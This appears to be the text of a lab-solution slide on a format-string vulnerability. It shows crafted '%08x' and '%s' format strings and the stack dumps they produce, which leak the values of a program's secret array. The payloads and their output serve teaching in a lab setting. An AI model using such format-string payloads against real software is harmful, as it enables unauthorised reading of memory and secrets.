

Solutions
Value of the secret[0]
41120
%08x:%08x:%08x:%08x::%08x:%08x:%08x:%s::%08x:%08x:%08x:%08x
bfbb5e38:00000000:00000000:00000000::00000000:00000000:bfbb5f44:D:0000a0a0:78383025:3830253a:30253278

How do we get the second value?
We can control the value of int_input …
D is #44 the first value of secret
Value of the secret[1]
158466060
%08x:%08x:%08x:%08x::%08x:%08x:%08x:%s::%s:%08x:%08x:%08x
dfe27b08:00000000:00000000:00000000::00000000:00000000:bfe27c14:D:U:78383025:3830253a:30253278

U is #55 the second value of secret